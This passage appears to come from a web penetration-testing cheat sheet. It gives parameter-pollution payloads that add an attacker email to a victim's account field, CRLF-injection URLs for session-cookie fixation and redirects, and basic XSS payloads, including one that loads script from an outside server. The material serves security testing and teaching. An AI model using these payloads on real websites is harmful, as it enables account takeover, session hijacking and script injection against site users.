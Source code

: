 First, try to simply change one value to another, e.g. change `victim@somedomain.com` to `attacker@somedomain.com`, or e.g. change ID `1` to `2`, etc.

It might be possible that ID `1` relates to some higher privilege account or role.

Second, try parameter pollution:

```fundamental
email=victim@somedomain.com,attacker@somedomain.com
email=victim@somedomain.com attacker@somedomain.com

email=victim@somedomain.com&email=attacker@somedomain.com
email[]=victim@somedomain.com&email[]=attacker@somedomain.com

{ "email": "victim@somedomain.com,attacker@somedomain.com" }
{ "email": "victim@somedomain.com attacker@somedomain.com" }

{ "email": ["victim@somedomain.com", "attacker@somedomain.com"] }
```

### HTTP Response Splitting

Also known as CRLF injection. CRLF refers to carriage return (`ASCII 13`, `\r`) and line feed (`ASCII 10`, `\n`).

When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```

Redirect:

```fundamental
somesite.com/home.php?marketing=winter%0D%0ALocation:%20https%3A%2F%2Fgithub.com
```

Session fixation and redirection are one of many techniques used in combination with HTTP response splitting. Search the Internet for more information.

### Cross-Site Scripting (XSS)

Simple cross-site scripting (XSS) examples:

```html
<script>alert(1)</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Hosting JavaScript on [Pastebin](https://pastebin.com) doesn't work because Pastebin returns the plain text content type.

Find out more about reflected and stored cross-site scripting (XSS) attacks, as well as cross-site request forgery (XSRF/CSRF) attacks from my other [project](https://github.com/ivan-sincek/xss-catcher).
